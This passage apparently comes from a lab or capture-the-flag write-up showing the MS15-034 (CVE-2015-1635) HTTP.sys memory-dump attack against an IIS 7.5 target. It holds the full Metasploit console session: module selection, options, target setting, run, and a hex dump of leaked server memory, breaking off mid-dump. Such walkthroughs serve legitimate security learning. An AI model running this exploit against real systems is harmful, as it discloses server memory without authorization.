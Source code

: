 ## 2. First Attack, MS15-034, CVE-2015-1635
Ezgame, another metasploit module!
```
hippoeug@kali:~$ msfconsole
msf6 > use auxiliary/scanner/http/ms15_034_http_sys_memory_dump
msf6 auxiliary(scanner/http/ms15_034_http_sys_memory_dump) > show options

Module options (auxiliary/scanner/http/ms15_034_http_sys_memory_dump):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------                                                                                                           
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                             yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT             80               yes       The target port (TCP)
   SSL               false            no        Negotiate SSL/TLS for outgoing connections
   SUPPRESS_REQUEST  true             yes       Suppress output of the requested resource
   TARGETURI         /                no        URI to the site (e.g /site/) or a valid file resource (e.g /welcome.png)
   THREADS           1                yes       The number of concurrent threads (max one per host)
   VHOST                              no        HTTP server virtual host

msf6 auxiliary(scanner/http/ms15_034_http_sys_memory_dump) > set rhost 10.129.128.62
rhost => 10.129.128.62
msf6 auxiliary(scanner/http/ms15_034_http_sys_memory_dump) > run
/usr/share/metasploit-framework/modules/auxiliary/scanner/http/ms15_034_http_sys_memory_dump.rb:67: warning: URI.escape is obsolete

[+] Target may be vulnerable...
[+] Stand by...
[-] Memory dump start position not found, dumping all data instead

[+] Memory contents:
48 54 54 50 2f 31 2e 31 20 32 30 36 20 50 61 72    |HTTP/1.1 206 Par|
74 69 61 6c 20 43 6f 6e 74 65 6e 74 0d 0a 43 6f    |tial Content..Co|
6e 74 65 6e 74 2d 54 79 70 65 3a 20 74 65 78 74    |ntent-Type: text|
2f 68 74 6d 6c 0d 0a 4c 61 73 74 2d 4d 6f 64 69    |/html..Last-Modi|
66 69 65 64 3a 20 46 72 69 2c 20 31 37 20 4d 61    |fied: Fri, 17 Ma|
72 20 32 30 31 37 20 31 34 3a 33 37 3a 33 30 20    |r 2017 14:37:30 |
47 4d 54 0d 0a 41 63 63 65 70 74 2d 52 61 6e 67    |GMT..Accept-Rang|
65 73 3a 20 62 79 74 65 73 0d 0a 45 54 61 67 3a    |es: bytes..ETag:|
20 22 33 37 62 35 65 64 31 32 63 39 66 64 32 31    | "37b5ed12c9fd21|
3a 30 22 0d 0a 53 65 72 76 65 72 3a 20 4d 69 63    |:0"..Server: Mic|
72 6f 73 6f 66 74 2d 49 49 53 2f 37 2e 35 0d 0a    |rosoft-IIS/7.5..|
58 2d 50 6f 77 65 72 65 64 2d 42 79 3a 20 41 53    |X-Powered-By: AS|
50 2e 4e 45 54 0d 0a 44 61 74 65 3a 20 53 75 6e    |P.NET..Date: Sun|
2c 20 31 31 20 41 70 72 20 32 30 32 31 20 31 30    |, 11 Apr 2021 10|
3a 30 31 3a 30 39 20 47 4d 54 0d 0a 43 6f 6e 74    |:01:09 GMT..Cont|
65 6e 74 2d 4c 65 6e 67 74 68 3a 20 36 38 38 0d    |ent-Length: 688.|
0a 43 6f 6e 74 65 6e 74 2d 52 61 6e 67 65 3a 20    |.Content-Range: |
62 79 74 65 73 20 31 2d 36 38 38 2f 36 38 39 0d    |bytes 1-688/689.|
0a 0d 0a 21 44 4f 43 54 59 50 45 20 68 74 6d 6c    |...!DOCTYPE html|
20 50 55 42 4c 49 43 20 22 2d 2f 2f 57 33 43 2f    | PUBLIC "-//W3C/|
2f 44 54 44 20 58 48 54 4d 4c 20 31 2e 30 20 53    |/DTD XHTML 1.0 S|
74 72 69 63 74 2f 2f 45 4e 22 20 22 68 74 74 70    |trict//EN" "http|
3a 2f 2f 77 77 77 2e 77 33 2e 6f 72 67 2f 54 52    |://www.w3.org/TR|
2f 78 68 74 6d 6c 31 2f 44 54 44 2f 78 68 74 6d    |/xhtml1/DTD/xhtm|
6c 31 2d 73 74 72 69 63 74 2e 64 74 64 22 3e 0d    |l1-strict.dtd">.|
0a 3c 68 74 6d 6c 20 78 6d 6c 6e 73 3d 22 68 74    |.<html xmlns="ht|
74 70 3a 2f 2f 77 77 77 2e 77 33 2e 6f 72 67 2f    |tp://www.w3.org/|
31 39 39 39 2f 78 68 74 6d 6c 22 3e 0d 0a 3c 68    |1999/xhtml">..<h|
```